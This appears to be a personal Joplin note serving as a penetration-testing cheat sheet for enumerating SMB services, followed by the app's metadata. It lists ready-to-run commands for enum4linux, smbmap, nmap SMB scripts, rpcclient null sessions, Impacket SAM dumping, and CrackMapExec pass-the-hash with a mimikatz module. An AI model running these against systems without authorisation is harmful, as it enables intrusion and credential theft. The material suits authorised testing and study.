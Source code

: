 General Notes


## Enumerate SMB:

Enum4linux:

- Enum4linux -a 172.21.0.0

SMBmap:

- smbmap -H 172.21.0.0 -d [domain] -u [user] -p [password]
- smbmap -H 172.21.0.0 -d [domain] -u "" -p ""

Nmap: 

- nmap --script smb-* -p 139,445, 172.21.0.0
- nmap --script smb-enum-* -p 139,445, 172.21.0.0

/usr/share/nmap/scripts/smb-brute.nse
/usr/share/nmap/scripts/smb-enum-domains.nse
/usr/share/nmap/scripts/smb-enum-groups.nse
/usr/share/nmap/scripts/smb-enum-processes.nse
/usr/share/nmap/scripts/smb-enum-services.nse
/usr/share/nmap/scripts/smb-enum-sessions.nse
/usr/share/nmap/scripts/smb-enum-shares.nse
/usr/share/nmap/scripts/smb-enum-users.nse
/usr/share/nmap/scripts/smb-flood.nse
/usr/share/nmap/scripts/smb-ls.nse
/usr/share/nmap/scripts/smb-mbenum.nse
/usr/share/nmap/scripts/smb-os-discovery.nse
/usr/share/nmap/scripts/smb-print-text.nse
/usr/share/nmap/scripts/smb-protocols.nse
/usr/share/nmap/scripts/smb-psexec.nse
/usr/share/nmap/scripts/smb-security-mode.nse
/usr/share/nmap/scripts/smb-server-stats.nse
/usr/share/nmap/scripts/smb-system-info.nse


SMBClient: 

- smbclient -L 172.21.0.0
- smbclient //172.21.0.0/tmp

Impacket SmbClient: 

- /usr/share/doc/python3-impacket/examples/smbclient.py username@172.21.0.0

RPCclient: 

- rpcclient -U "" -N 172.21.0.0 enumdomusers

Impacket: 

- python3 samdump.py SMB 172.21.0.0

CrackMapExec: 

- crackmapexec smb -L 
- crackmapexec 172.21.0.0 -u Administrator -H [hash] --local-auth
- crackmapexec 172.21.0.0 -u Administrator -H [hash] --share
- crackmapexec smb 172.21.0.0/24 -u user -p 'Password' --local-auth -M mimikatz

 



id: 3daf3fe0422f4e878182a8691ae9db78
parent_id: 2e2257054f9c4980b2f1872f1d220424
created_time: 2019-11-22T17:41:40.735Z
updated_time: 2022-01-16T08:58:44.349Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2019-11-22T17:41:40.735Z
user_updated_time: 2020-05-06T02:07:35.710Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1